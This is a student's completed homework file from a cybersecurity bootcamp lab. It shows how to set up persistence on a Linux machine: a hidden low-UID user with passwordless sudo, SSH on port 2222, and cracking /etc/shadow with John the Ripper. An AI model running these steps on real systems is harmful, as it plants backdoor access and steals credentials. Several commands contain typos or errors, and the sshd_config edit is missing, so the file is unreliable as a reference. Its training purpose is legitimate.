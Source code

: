 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser –-no-create-home sysd'

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 500 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 500 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo `
   sysd All=(ALL) NOPASSWD:ALL 
   
6. Test that `sudo` access works without your password:

    ```
       sudo -l sysd
       sudo apt-get update
       sudo -h
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```nano etc/ssh/sshd_config
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart sshd.service `

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su `

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

